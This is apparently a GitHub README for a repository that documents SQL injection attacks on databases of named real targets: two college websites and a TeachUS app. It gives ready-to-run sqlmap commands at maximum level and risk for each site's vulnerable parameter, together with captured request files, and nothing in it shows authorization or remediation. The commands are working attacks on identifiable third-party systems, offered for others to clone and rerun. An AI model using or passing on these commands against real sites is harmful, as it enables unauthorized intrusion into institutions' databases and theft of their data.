 # College Website Database Hacking with SQLMap

This repository showcases how I successfully tested the security of these databases by exploiting SQL vulnerabilities. The tools I used 
 [SQLMap](http://sqlmap.org/) and [Acunetix](https://www.acunetix.com/).

## Prerequisites

Before running the SQLMap commands, ensure you have the following installed:

- [SQLMap](http://sqlmap.org/)
- [Acunetix](https://www.acunetix.com/)
- Python 2.7 or Python 3.x

You will also need the request files provided in this repository:

- `somaiyaClg.txt`
- `thakur.txt`
- `teachus.txt`

These files contain the HTTP requests captured during the penetration testing.

## Clone Repository
```bash
git clone https://github.com/seanvishwakarma/sqlmap-database-hack.git
```

## How to Use

### 1. Somaiya College Website

The SQL injection vulnerability was found in the `id` parameter.

```bash
sqlmap -r somaiyaClg.txt -p id --batch --level 5 --risk 3 --dbs
```
![Somaiya College SQLMap Result](images/somaiyaClg.png)

### 2. Thakur College Website

For Thakur College, the vulnerability was found in the `password` parameter.

```bash
sqlmap -r thakur.txt -p password --batch --level 5 --risk 3 --time-sec=5 --dbs
```
![Thakur College SQLMap Result](images/thakur.png)


### 3. TeachUS App Database

The TeachUS app database was vulnerable through the college parameter.

```bash
sqlmap -r teachus.txt -p college --batch --level 5 --risk 3 --dbs
```
![TeachUS App SQLMap Result](images/teachus.png)
